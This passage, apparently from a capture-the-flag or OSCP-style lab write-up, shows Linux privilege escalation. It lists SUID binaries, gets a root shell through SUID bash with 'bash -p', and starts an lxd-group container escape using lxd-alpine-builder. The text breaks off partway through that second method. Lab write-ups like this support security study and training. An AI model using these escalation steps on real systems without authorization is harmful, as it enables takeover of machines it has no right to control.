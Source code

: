 ```
/snap/core18/1754/usr/bin/chfn
/snap/core18/1754/usr/bin/chsh
/snap/core18/1754/usr/bin/gpasswd
/snap/core18/1754/usr/bin/newgrp
/snap/core18/1754/usr/bin/passwd
/snap/core18/1754/usr/bin/sudo
/snap/core18/1754/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/1754/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/fusermount
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/bash
/usr/bin/pkexec
/usr/bin/umount
/usr/bin/chsh
/usr/bin/su
-bash-5.0$
```

### via bash

```
-bash-5.0$ /usr/bin/bash -p
bash-5.0# whoami
root
```

### via `lxd`

check `id`

```
-bash-5.0$ id
uid=1000(oscp) gid=1000(oscp) groups=1000(oscp),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)
-bash-5.0$ 
```

we got some user in `lxd` group, we can follow the intructions from `https://www.hackingarticles.in/lxd-privilege-escalation/`  
first step, we need to download `lxd` builder to our machine

```
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
sudo ./build-alpine
```
